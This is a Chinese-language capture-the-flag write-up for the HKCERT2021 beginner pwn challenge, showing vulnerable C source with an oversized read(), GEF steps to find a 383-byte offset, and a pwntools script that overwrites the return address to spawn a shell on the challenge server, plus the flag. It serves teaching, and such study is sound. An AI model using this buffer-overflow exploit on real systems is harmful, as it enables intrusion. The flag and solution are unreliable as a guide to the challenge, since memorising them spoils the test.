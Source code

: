 # HKCERT2021 - 想改寫的事
- Write-Up Author: [Ivan Mak](https://hackmd.io/JH0dysBTSx6H1o1PZ7OqWg)

- Flag: hkcert21{be_c4r3_WIth_7he_5iZe}

## **Question:**
想改寫的事 (50 points)

>Challenge description

![img](./img/1.png)

Attachment: [warmup_6eab9fa64b5dd76649f6c0372315aabe.zip](./warmup_6eab9fa64b5dd76649f6c0372315aabe.zip)

## Write up
- 知識點

這是一道經典的 pwn 基礎題，香港朋友他們在出這一道題之前，已經事先在 Youtube 上發布了 [PWN 101 - Buffer Overflow 【廣東話 CTF 新手教學】](https://www.youtube.com/watch?v=Ag0OcqbVggc)，雖然題目不同，但核心解法和原理幾乎一樣，可以說看了它就能解這題。而且這是一個適合新手的 pwn 入門視頻教學，特別推薦第一次玩 pwn 的小伙伴。

這裡有 2 個很重要的工具需要使用到，[GEF](https://github.com/hugsy/gef) 和 [pwntools](https://github.com/Gallopsled/pwntools)，具體的安裝方法這裡不贅述，你是駭客就自行解決吧。

1. 先看附檔內容

**warmup.c**
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void get_shell() {
    system("/bin/sh");
}

void init() {
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    alarm(60);
}

int main () {
    char buf[100];
    char end[8] = "N";
    init();
    printf("Welcome to echo service.\n");
    while(!(end[0] == 'Y' || end[0] == 'y')){
        int num_read = read(0, buf, 0x100);
        if (buf[num_read-1] == '\n')
            buf[num_read-1] = '\0';
        printf("%s", buf);
        printf("End?[Y/N] ");
        scanf("%7s", end);
    }
}
```

這裡的目標是，從 read() 讀一個過長的字串，令 buf[100] 產生溢位(buffer overflow)，從而執行函式 get_shell()

2. 用 GEF 找溢位長度

附檔裡有一個叫 chall 的執行檔，它是 warmup.c 編譯出來的，我先給 chall 一個可執行的屬性。

```
chmod 777 chall

```

a. 運行 gef

```
$ gdb
gef➤ file chall

```

![img](./img/2.png)

b. 查看 main 的 disassemble

```
gef➤  disassemble main

```

![img](./img/3.png)

c. 建立 break point

把 break point 建立在最後一個位置 0x00000000004012ba 上

```
gef➤ break *main+186

```

![img](./img/4.png)

d. 執行並填入大量字串

```
gef➤ run

```

![img](./img/5.png)

![img](./img/6.png)

e. 找出需要用多少字才回傳到 stack 的起始值

```
gef➤ pattern create 500

```

![img](./img/7.png)

![img](./img/8.png)

看到填入的字串產生了變化，搜尋第一行位置的 pattern 值

```
gef➤  pattern search 0x00007fffffffe228

```

![img](./img/9.png)

找到共需填入 383 個字元才到達 stack 的起始回傳的位置

3. 用 python 的 pwntools 寫 payload

記得用 gef 查看一下 get_shell 的位置

```
gef➤  disassemble get_shell
```

![img](./img/10.png)


```
from pwn import *

p = remote("chalp.hkcert21.pwnable.hk",28028)
p.recvuntil("service.")

get_shell = 0x0000000000401182
p.sendline(b"a"*383 + p64(get_shell))

p.recvuntil("End?[Y/N]")
p.sendline("y")

p.interactive()
```

這樣就能取得 shell 的執行權為所欲為
```
ls 
cat flag.txt

```

![img](./img/11.png)

> hkcert21{be_c4r3_WIth_7he_5iZe}
